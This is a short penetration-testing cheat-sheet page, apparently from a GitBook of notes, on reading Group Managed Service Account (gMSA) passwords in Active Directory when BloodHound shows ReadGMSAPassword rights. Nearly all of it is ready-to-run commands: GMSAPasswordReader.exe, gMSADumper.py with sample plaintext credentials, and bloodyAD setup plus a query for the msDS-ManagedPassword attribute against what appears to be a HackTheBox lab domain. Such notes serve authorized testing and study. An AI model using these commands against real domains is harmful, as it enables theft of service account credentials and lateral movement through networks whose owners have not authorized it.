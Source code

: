 ```yaml
---
description: >-
  If you have a read permission, you can decrypt Group Managed Services Account
  (gMSA) password.
---
```


# gMSA account

[https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

In Bloodhound, you see ReadGMSAPassword in 'First Degree Object Control' in a Group or User like below.&#x20;

<figure><img src="../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Windows
# Download the GMSAPasswordReader.exe from the site below. 
# https://github.com/expl0itabl3/Toolies

.\GMSAPasswordReader.exe --AccountName 'svc_apache'

# Linux 
gMSADumper.py -u 'enox' -p 'california' -d 'domain.local'

# bloodAD
git clone https://github.com/CravateRouge/bloodyAD
pipenv shell
cd bloodyAD
pip3 install .

bloodyAD/bloodyAD.py -u tbrady -d rebound.htb -p 543BOMBOMBUNmanda --host $RHOST get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}

